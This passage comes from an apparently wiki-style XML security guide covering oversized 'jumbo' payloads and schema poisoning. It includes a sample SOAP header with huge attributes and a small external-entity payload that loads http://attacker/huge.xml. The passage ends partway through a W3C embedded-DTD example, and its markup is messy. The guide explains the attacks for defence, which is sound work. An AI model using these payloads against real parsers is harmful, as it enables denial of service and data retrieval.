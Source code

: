 There are two primary methods to make a document larger than normal:

-   Depth attack: using a huge number of elements, element names, and/or element values.
-   Width attack: using a huge number of attributes, attribute names, and/or attribute values.

In most cases, the overall result will be a huge document. This is a short example of what this looks like:

<SOAPENV:ENVELOPE XMLNS:SOAPENV="<nowiki>[`HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/`](HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/)</nowiki>`" XMLNS:EXT="HTTP://COM/IBM/WAS/WSSAMPLE/SEI/ECHO/B2B/EXTERNAL">`
` <SOAPENV:HEADER `**`LARGENAME1`**`="`**`LARGEVALUE`**`" `**`LARGENAME2`**`="`**`LARGEVALUE2`**`" `**`LARGENAME3`**`="`**`LARGEVALUE3`**`" …>`
` ...`

### "Small" Jumbo Payloads

The following example is a very small document, but the results of processing this could be similar to those of processing traditional jumbo payloads. The purpose of such a small payload is that it allows an attacker to send many documents fast enough to make the application consume most or all of the available resources:

<?xml version="1.0"?>
`<!DOCTYPE root [`
` <!ENTITY `**`file`**` SYSTEM "`**`http://attacker/huge.xml`**`" >`
`]>`
<root>**`&file;`**</root>

Schema Poisoning
----------------

When an attacker is capable of introducing modifications to a schema, there could be multiple high-risk consequences. In particular, the effect of these consequences will be more dangerous if the schemas are using DTD (e.g., file retrieval, denial of service). An attacker could exploit this type of vulnerability in numerous scenarios, always depending on the location of the schema.

### Local Schema Poisoning

Local schema poisoning happens when schemas are available in the same host, whether or not the schemas are embedded in the same XML document .

#### Embedded Schema

The most trivial type of schema poisoning takes place when the schema is defined within the same XML document. Consider the following, unknowingly vulnerable example provided by the W3C :

<?xml version="1.0"?>
`<!DOCTYPE note [`
` `

<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
`]>`
